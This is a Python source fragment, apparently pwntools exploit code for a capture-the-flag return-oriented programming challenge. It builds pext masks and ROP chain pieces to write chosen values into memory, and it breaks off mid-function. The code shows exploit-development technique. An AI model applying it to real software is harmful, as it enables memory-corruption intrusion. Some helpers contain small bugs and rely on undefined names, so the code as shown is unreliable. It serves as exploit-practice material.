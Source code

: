 def bytes2bin(data,offset=32):
    return bin(unpack(data,offset,endian='little'))[2:]
def for_p32(data,offset=8):
    return hex(int(data,2))
def output_data(data):
    open('input', 'wb').write(data)

def create_mask(desired_value,src,desired_offset=8):
    r""" 
    Create a mask for pext instruction.
    :param desired_value: The desired value of the mask.
    :param src: The source value of the mask.
    :return: The mask.  
    
    Reffrence:https://www.felixcloutier.com/x86/pext
    """
    desired_value.zfill(desired_offset)


    src = src[::-1]
    desired_value = desired_value[::-1]
    ret = ''
    desired_value_index = 0
    for i in range(len(src)):
        if desired_value[desired_value_index] == src[i]:
            ret = '1' + ret
            desired_value_index+=1
        else:
            ret = '0' + ret
        
        if(desired_value_index == len(desired_value)):
                return ret
    return ret

def fill_ecx(val):
    r"""
    Fill ecx with desired value.
    :param val: The desired value.
    :return: The payload.
    """
    chain = b""
    chain += p32(pop_ecx_bswap_ecx)
    chain += pack(val, 32, endianness="big")
    return chain
def write_to_adr(val,adr,offset=32):
    r"""
    Write to address.
    :param val: The value to write.
    :param adr: The address to write.
    :param offset: The offset of the address.
    :return: The value written rop.
    """
    val_bin = bytes2bin(val,offset).zfill(offset)
    src = bin(0xb0bababa)[2:]
    val_bytes = textwrap.wrap(val_bin,8)
    masks = []
    for val_byte in val_bytes:
        log.info(f"val_byte:{val_byte} -> {pack(int('0b'+val_byte,2),8)}")
        created_mask = create_mask(val_byte,src)
        padded_mask = created_mask.zfill(32)
        log.info(f'padded_mask:{padded_mask}')
        masks.append(padded_mask)
    
